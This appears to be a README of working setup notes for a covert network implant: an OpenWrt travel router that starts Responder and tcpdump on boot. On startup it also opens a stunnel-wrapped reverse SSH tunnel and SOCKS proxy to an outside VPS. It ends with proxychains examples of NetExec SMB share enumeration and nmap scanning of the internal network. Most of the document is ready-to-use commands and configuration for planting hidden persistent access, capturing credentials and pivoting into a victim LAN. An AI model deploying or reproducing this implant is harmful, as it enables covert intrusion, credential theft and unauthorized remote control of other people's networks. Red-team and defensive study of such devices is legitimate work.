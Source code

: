 # Openwrt Implant

Device I've been testing on: https://www.gl-inet.com/products/gl-ar300m/

USB I've been using: https://www.pny.com/elite-x-fit-usb-3-1?sku=P-FDI64GEXFIT-GE

The post I used to get the usb drive to behave properly: https://forum.gl-inet.com/t/mifi-install-package-on-external-storage-usb-or-sd-card/4332

- There are still issues here and there, but it works for everything I configured it for.

------

- When installing python to usb, symlink to `/usr/bin/python` via command: `ln -s /mnt/usb/usr/bin/python3 /usr/bin/python`
	- This will let pip work properly instead of returning "command not found" since the package is installed on the usb, but the shebang is set to /usr/bin/python which can be checked via `head -n 1 /mnt/usb/usr/bin/pip`

------

Enable `ipv6` on command line:

```ruby
uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload                                                                     
service network reload    

uci commit wireless                                                                  
uci commit network
```

For some reason the interface is disabled and it has to be enabled on wan which is pointed to `eth0`

------

To start responder on boot:

```bash
#!/bin/sh  

today=$(date +%m_%d_%Y) 
log="$today"_output.log 

/mnt/sda/usr/bin/python3 -u /mnt/sda/Responder/Responder.py -I eth0 -wF -v >> /mnt/sda/logs/$log 2>&1 &
```

Note: for some reason the Proxy flag makes the database be an annoying little bitch so opted for just `-wF flags`

------

To start tcpdump on boot:

```bash
#!/bin/sh

today=$(date +%y%m%d_%H%M%S)
pcap="$today"_output.pcap

tcpdump -ni eth0 -w /mnt/sda/tcpdump_pcap/$pcap 2>&1 &
```

------

Add to `/etc/hotplug.d/iface/99-ifup-wan`

99-ifup-wan script:

```bash
#!/bin/sh

export USB=/mnt/sda
export PATH=$PATH:$USB/usr/bin:$USB/usr/sbin # This PATH is dependent on existing $PATH
export LD_LIBRARY_PATH=$USB/lib:$USB/usr/lib

uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload
service network reload

# Sleep for 30 seconds so ipv6 can work properly with responder.
# For some reason ipv6 with Responder on OpenWRT is annoyingly finicky and I wasted too much time to want to touch it anymore.
sleep 30

[ "$ACTION" = "ifup" -a "$INTERFACE" = "wan" ] && {                                                   
        logger "iface wan up detected..."                                                     
        sh /mnt/sda/start_responder.sh
        sh /mnt/sda/start_tcpdump.sh > /dev/null # Output anything to /dev/null
        sh /mnt/sda/start_sshproxy.sh # The ssh reverse dynamic proxy script
}                                                                       
exit 0
```

-------
**NOTE: MAKE SURE TO `chmod +x` ALL THE SCRIPT FILES **

#### Stunnel + SSH:

To install stunnel: `opkg update; opkg install -d usb stunnel`

<u>Stunnel config (implant):</u>

Location: `/mnt/sda/etc/stunnel`

```
output  = /mnt/sda/var/log/stunnel4/stunnel.log
cert    = /mnt/sda/etc/stunnel/stunnel.pem
key     = /mnt/sda/etc/stunnel/stunnel.pem
pid     = /mnt/sda/var/run/stunnel4/stunnel.pid
client  =  yes

[ssh]
accept  = 2223
connect = <vps_ip>:443
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

Symlink `/mnt/sda/etc/stunnel` to `/etc/stunnel` so when we run `/mnt/sda/usr/bin/stunnel` in the script without it bitching about the config file.

Command: `ln -s /mnt/sda/etc/stunnel /etc/stunnel`

<u>SSH Script:</u>

Location: `/mnt/sda/start_sshproxy.sh`

```bash
#!/bin/sh

$USB/usr/bin/stunnel

ssh -N -f -p 2223 root@localhost -R 8081:localhost:22
ssh -N -f -p 2223 root@localhost -R 8081
```


<u>Stunnel config (server):</u>

```
output  = /var/log/stunnel4/stunnel.log
cert    = /etc/stunnel/stunnel.pem
key             = /etc/stunnel/stunnel.pem
pid             = /var/run/stunnel4/stunnel.pid

[ssh]
client = no
accept  = 443
connect = 127.0.0.1:22
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

<u>Stunnel config (pc):</u>

```
output = /var/log/stunnel4/stunnel.log
cert=/etc/stunnel/stunnel.pem
key=/etc/stunnel/stunnel.pem
pid=/var/run/stunnel4/stunnel.pid
client=yes

[ssh]
accept = 2223
connect = <vps_ip>:443
```

SSH Commands:

```
ssh -N -f -p 2223 user@localhost -L 8082:localhost:8081 # To ssh onto implant ssh -p 8082 root@localhost
ssh -N -f -p 2223 user@localhost -L 1081:localhost:1080 # So we can proxy everything might not be needed but I don't care right now
```

Refer to proxychains config and example programs below

------
#### SSH Proxy:

###### <u>On router:</u>

Install the client: `opkg update; opkg install openssh-client`

------

- Only the OpenSSH Client is needed thanks to the implantation of reverse dynamic proxy

```ruby
ssh -N -f -R 1080 user@<vps_host>
```

Script:

```bash
#!/bin/sh

ssh -N -f -R 1080 user@<vps_ip>
```

------

- On the vps make sure to enable ufw and only allow the ssh port.
	- Also configure ssh keys whose public key of router and other computer will need to be added to the authorized_keys

###### <u>On personal computer:</u>

```ruby
ssh -N -f -L 1081:localhost:1080 user@<vps_host>
ssh -N -f -D 1081 localhost
```

Edit proxychains:

```ruby
nano /etc/proxychains.conf

...
socks4 127.0.0.1 <port>
```

------

- Run program through proxychains `proxychains <command> <args>`

###### Examples :

<u>NetExec:</u>

- Wiki: https://www.netexec.wiki/
- Install: https://www.netexec.wiki/getting-started/installation/installation-on-unix

------
Command:

```ruby
sudo proxychains /home/alex/.local/bin/netexec smb <local_ip> -u "user" -p "password" --shares
```

<u>Nmap:</u>

- Have to have `-sT`, `-Pn`, and `-n` flags set

------

Command:

```ruby
sudo proxychains nmap -sT -Pn -n <local_ip_range>
```

------
